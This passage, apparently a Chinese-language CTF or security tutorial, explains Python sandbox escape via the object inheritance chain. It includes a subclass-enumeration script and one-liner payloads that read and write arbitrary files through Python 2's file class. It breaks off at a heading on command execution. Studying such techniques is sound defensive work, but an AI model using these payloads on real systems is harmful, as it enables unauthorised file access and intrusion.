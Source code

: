 # 攻击思路

利用继承链进行攻击,主要利用object类和内置类

## object基类的利用

>  可以利用直接object基类下的子类,也可以利用子类下面的方法等

​	    找到object类

1. 随便找一个内置类对象用`__class__`拿到他所对应的类

2. 用`__bases__`拿到基类（` <class 'object'> `）

   利用其object基类的子类

3. 用`__subclasses__()`拿到子类列表

4. 在子类列表中直接寻找可以利用的类

### 读取文件

读取文件利用的是object子类的`<type 'file'>`类

找`<type 'file'>`的位置,可以用下面的脚本

```python
search = 'file'
num = 0
for i in ().__class__.__base__.__subclasses__():
    if search in str(i):
        print num
    num += 1
```

` <type 'file'> `在第40位 ,`  ().__class__.__bases__[0].__subclasses__()[40] `

 用`dir`来看看内置的方法 `dir(().__class__.__bases__[0].__subclasses__()[40])`

```python
['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
```

存在read,readline,readlines,write等方法,可以利用这些方法进行读写文件

读文件 : `().__class__.__base__.__subclasses__()[40]('filename').readlines()`

写文件:  `().__class__.__base__.__subclasses__()[40]('路径+文件名').write('内容') `

> 这种方法只能在py2下使用,py3已经移除了` <type 'file'> `

### 执行命令

执行命令是利用子类的一些方法
